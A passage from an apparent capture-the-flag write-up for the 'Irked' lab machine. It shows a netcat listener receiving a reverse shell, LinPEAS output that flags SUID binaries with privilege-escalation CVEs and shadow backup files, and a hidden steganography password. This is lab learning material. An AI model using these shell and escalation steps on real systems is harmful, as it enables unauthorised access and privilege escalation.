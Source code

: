 On the NetCat side
```
# nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.117] 42225
bash: cannot set terminal process group (622): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ 
```

### `Getting Shell for djmardov`

###### `LinPEaS findings`
```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                                                       Linux version 3.16.0-6-686-pae (debian-kernel@lists.debian.org) (gcc version 4.9.2 (Debian 4.9.2-10+deb8u1) ) #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08)

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices      
UUID=85e17c08-fee3-451a-a1f8-c95346ddc46c /               ext4    errors=remount-ro 0       1                                                            
UUID=29d1ae3e-562d-4323-b58c-2d48799f9632 none            swap    sw              0       0
/dev/sr0        /media/cdrom0   udf,iso9660 user,noauto     0       0

╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 18K Sep  8  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 52K May 17  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-sr-x 1 daemon daemon 50K Sep 30  2014 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)

╔══════════╣ Searching installed mail applications
exim 
sendmail

╔══════════╣ Backup folders
drwxr-xr-x 2 root root 4096 Oct  4 01:22 /var/backups                                                                                                    total 4916
-rw------- 1 root root       989 May 14  2018 group.bak
-rw------- 1 root shadow     834 May 14  2018 gshadow.bak
-rw------- 1 root root      2161 May 14  2018 passwd.bak
-rw------- 1 root shadow    1314 May 16  2018 shadow.ba
```
###### `Stegnography to extract password using steghide`
While enumerating, I found the `.backup` file which throws a random password. Trying out this password on user `djmardov` didn't work.
```
ircd@irked:/home/djmardov/Documents$ cat .backup
cat .backup
Super elite steg backup pw
```